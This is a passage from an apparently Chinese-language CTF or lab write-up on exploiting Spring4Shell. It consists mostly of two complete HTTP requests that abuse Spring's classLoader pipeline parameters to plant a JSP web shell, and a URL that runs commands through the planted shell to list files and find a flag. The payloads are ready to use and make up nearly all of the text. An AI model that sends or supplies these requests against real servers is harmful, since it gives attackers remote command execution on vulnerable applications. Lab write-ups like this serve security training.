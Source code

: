 ![image-20241015125012982](https://s2.loli.net/2024/10/15/gcf3jnIrElews6x.png)

最终数据包

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22t%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di HTTP/1.1
Host: 123.58.224.8:60448
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh,en;q=0.9,en-GB;q=0.8,en-US;q=0.7,zh-CN;q=0.6
Cookie: JSESSIONID=2F3A1B5679A89C654B842787A16F09CA
suffix:%>//
c1:Runtime
c2:<%
Connection: close


```

访问http://123.58.236.76:27379/shell.jsp?pwd=t&cmd=ls /tmp，出现flag

![image-20241015125127220](https://s2.loli.net/2024/10/15/WkbZKwn7teIHg6D.png)

#### 方法二：POST方式

```
POST / HTTP/1.1
Host: 192.168.255.128:5468
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
DNT: 1
suffix: %>
prefix: <%Runtime
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 496

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di.getRuntime%28%29.exec%28request.getParameter%28%22pass%22%29%29%3B%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/root&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
